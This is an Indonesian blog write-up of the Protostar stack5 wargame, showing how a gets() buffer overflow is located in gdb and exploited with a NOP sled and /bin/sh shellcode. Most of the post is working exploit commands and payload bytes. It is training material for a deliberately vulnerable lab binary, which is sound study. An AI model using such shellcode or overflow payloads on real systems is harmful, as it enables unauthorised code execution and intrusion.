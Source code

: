 ```yaml
---
layout: post
title: "Protostar: stack5"
date: 2020-08-02 12:32:03 +0700
categories: [reversing, protostar]
---
```


Melanjutkan ke stack5. Berdasarkan [halaman resmi](https://exploit-exercises.lains.space/protostar/stack5/) dari [stack5](https://exploit-exercises.lains.space/protostar/stack5/), challenge kali ini kita akan diperkenalkan dengan **shellcode**. Berdasarkan [wikipedia](https://en.wikipedia.org/wiki/Shellcode), shellcode adalah sepotong kecil kode yang digunakan sebagai _payload_ dalam eksploitasi kerentanan perangkat lunak. Untuk lebih mengerti dan mengetahui mengenai shellcode saya rekomendasikan untuk membaca artikel yang sangat bagus dari Pak Yohanes [disini](https://yohan.es/security/buffer-overflow/shellcode/).

Berkas stack5 dapat ditemukan pada directory `/opt/protostar/bin`. Kita cek terlebih dahulu dengan utilitas `file`.

```bash
file stack5
```

output:
![output file stack5](/images/protostar-stack5-1.png)

Sama seperti yang sebelumnya, sekarang mari kita lihat source codenya.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Sangat singkat sekali! Sekarang mari kita cari ukuran buffer dan paddingnya dengan cara yang sama dengan saat kita mencari di [stack4](/belajar-reversing-protostar-stack4).

```bash
gdb -q stack5
set disassembly-flavor intel
disas main
b* 0x080483d4
r
ni
```

Pada baris pertama kita malakukan load stack5 ke gdb dengan mode quiet. Baris kedua mengatur syntax disassembly ke mode intel. Baris ketiga melakukan disassembly pada fungsi main. Baris keempat memasang breakpoint pada alamat 0x080483d4, saat pemanggilan fungsi gets (b merupakan singkatan dari break). Baris selanjutnya kita menjalankan stack5 (r merupakan singkatan dari run). Saat breakpoint tercapai, kita gunakan ni untuk melakukan next into, program akan meminta input. Seperti sebelumnya kita akan menggunakan bantuan dari [halaman ini](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html). Kita akan mengenerate 100 karakter saja.

output:
![output runtutan perintah diatas](/images/protostar-stack5-2.png)

Sekarang mari kita cari ukuran buffer+paddingnya.

```bash
info frame
x/s 0xbffff7bc
```

Perintah `info frame` akan menunjukkan alamat dari eip. Perintah selanjutnya untuk men examine dalam string isi dari **0xbffff7bc**.

output:
![output runtutan perintah diatas](/images/protostar-stack5-3.png)

Salin isi dari eip lalu cari ukuran buffer+padding pada [halaman berikut](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html). Kita mendapatkan ukuran offset (buffer+padding) sebesar 76.

![ukuran offset](/images/protostar-stack5-4.png)

Pada challenge sebelumnya terdapat fungsi win yang kita jadikan tujuan. Namun disini tidak ada fungsi seperti itu, yang perlu kita lakukan ialah menjalankan shellcode. Jika kalian telah membaca [artikel dari pak yohanes](https://yohan.es/security/buffer-overflow/shellcode/). Tentunya kalian sudah mendapat gambaran langkah selanjutnya.

Kita akan coba memasukkan shellcode dan mengeksekusinya. Tapi sebelumnya kita akan mempelajari terlebih dahulu dua instruksi, `nop` dan `int3`. Berdasarkan wikipedia, **nop** atau **no operation**, merupakan instruksi dalam bahasa assembly, pernyataan bahasa pemrograman, atau perintah protokol komputer yang tidak melakukan apa-apa. Opcode dari nop adalah **90**. Sedangkan **int3** berdasarkan wikipedia, merupakan satu-byte instruksi yang digunakan oleh debugger untuk sementara waktu mengganti instruksi dalam program yang sedang berjalan untuk menetapkan breakpoint. Opcode dari int3 ialah **CC**. Lebih lanjut mengenai nop dan int3 dapat kalian baca di wikipedia atau [manual dari intel](https://www.intel.com/content/dam/www/public/us/en/documents/manuals/64-ia-32-architectures-software-developer-instruction-set-reference-manual-325383.pdf).

Lalu akan kita gunakan untuk apa kedua instruksi diatas? Sebelumnya kembali dahulu ke gdb. Kita perlu membersihkan breakpoint yang sebelumnya lalu memasang breakpoint baru pada alamat yang lain.

```bash
del b
disas main
b* 0x080483d9
```

Perintah `del b` digunakan untuk menghapus breakpoint (delete breakpoint). Kali ini breakpoint akan kita pasang pada saat `leave`, gunakan perintah kedua untuk melihat alamatnya dan `b*` untuk memasang breakpoint.

output:
![hapus lalu pasang ulang breakpoint](/images/protostar-stack5-5.png)

Disini saya membuat sesi ssh baru ke mesin protostar untuk membuat payload. Alamat tujuan untuk eip sementara akan saya isi dengan `BBBB`. Payload akan saya taruh di directory `/tmp`.

```bash
python -c "print( 'A' * 76 + 'BBBB')" > /tmp/payload
cat /tmp/payload
```

output:
![buat payload](/images/protostar-stack5-6.png)

Sekarang mari kita coba gunakan payload tersebut di gdb. Sebagai catatan tanda **>** digunakan untuk mengalihkan stdout (standard output) menjadi stdin (standard input). Sedangkan tanda **<** sebaliknya. Selengkapnya dapat dibaca [disini](https://www.gnu.org/software/bash/manual/html_node/Redirections.html)

```bash
r < /tmp/payload
info frame
x/s 0xbffff7bc
x/40x 0xbffff7bc
```

output:
![kondisis stack setelah payload dimasukkan](/images/protostar-stack5-7.png)

Dapat kalian lihat diatas jika **BBBB** sudah menimpa eip. Dengan perintah terakhir kita dapat men examine eip dalam hex sebanyak 40. Kita akan menggunakan alamat setelah eip tersebut untuk meletakkan payload dan tujuan eip. Mari kita modifikasi lagi payload kita.
Kita akan menambahkan opcode dari int3 setelah eip lalu mengarahkan eip ke 0xbffff7c0. Alamat 0xbffff7c0 didapatkan dari eip + 4byte (panjang eip) sehingga akan mengarahkan eip ke int3. Sebagai catatan perhitungan dilakukan dengan hex yaitu 1-f.

```bash
python -c "print( 'A' * 76 + '\xc0\xf7\xff\xbf' + '\xcc')" > /tmp/payload
cat /tmp/payload
```

Kita hapus seluruh breakpoint sebelumnya lalu jalankan ulang stack5 di gdb dengan payload baru.

```
del b
r < /tmp/payload
```

output:
![jalankan stack5 di gdb dengan payload baru](/images/protostar-stack5-8.png)

Instruksi kita dijalankan! Program mengeksekusi int3 sehingga muncul notifikasi _Program received signal SIGTRAP, **Trace/breakpoint trap**._ Selanjutnya ialah mengganti instruksi int3 dengan shellcode yang dapat mengeksekusi shell. Saya menggunakan shellcode [berikut](http://shell-storm.org/shellcode/files/shellcode-851.php) yang saya dapatkan dari [shell-storm.org](http://shell-storm.org/shellcode/).

```bash
python -c "print( 'A' * 76 + '\xc0\xf7\xff\xbf' + '\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68')" > /tmp/payload

r < /tmp/payload #pada gdb
```

output:
![menjalankan pada gdb dengan payload baru](/images/protostar-stack5-9.png)

Terjadi eksekusi shell `dash` yang ditandai dengan, **Executing new program: /bin/dash**. Mari kita jalankan langsung tanpa gdb.

```bash
 python -c "print( 'A' * 76 + '\xc0\xf7\xff\xbf' + '\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68')" | ./stack5
```

output:
![menjalankan langsung stack5 dengan payload baru](/images/protostar-stack5-10.png)

Terjadi segmentation fault! Terdapat perbedaan saat menjalankan stack5 dengan gdb dan secara langsung. Salah satu perbedaan tersebut ialah **posisi stack**, tempat kita memasang shellcode. Kalian dapat membaca lebih lanjut mengenai perbedaan ini dengan mencarinya di google. Lanjut saja ke cara penyelesaian masalah ini, kita akan memakai instruksi nop. Kita akan mengisi stack dengan instruksi nop yang banyak, diikuti dengan shellcode lalu mengarahkan eip ke nop. Dengan begitu kita tidak perlu **tepat** mengarahkan eip ke ke awal shellcode, secara otomatis eip akan mengarahkan ke shellcode jika ia mengarah ke padding nop yang kita berikan.

```bash
python -c "print( 'A' * 76 + '\xc0\xf7\xff\xbf' + '\x90'* 60 + '\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68')"  | ./stack5
```

output:
![menjalankan stack5 dengan payload berisi nop](/images/protostar-stack5-11.png)

Tidak terjadi apa - apa, bahkan error sekalipun. Hal ini diakibatkan karena shell langsung tertutup setelah dijalankan. Untuk mengatasinya kita akan menggunakan bantuan `cat` untuk menjaga shell tetap terbuka dan memungkinkan kita untuk memasukkan input. Gunakan `man cat` jika ingin membaca manual dari utilitas cat.

```bash
python -c "print( 'A' * 76 + '\xc0\xf7\xff\xbf' + '\x90'* 60 + '\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68')"  > /tmp/payload
(cat /tmp/payload; cat) | ./stack5
```

output:
![menjalankan stack5 dengan payload](/images/protostar-stack5-12.png)

Berhasil! kalian dapat mengonfirmasi dengan memasukkan perintah `id` dan dengan `whoami`. Untuk keluar gunakan **ctrl+c**.
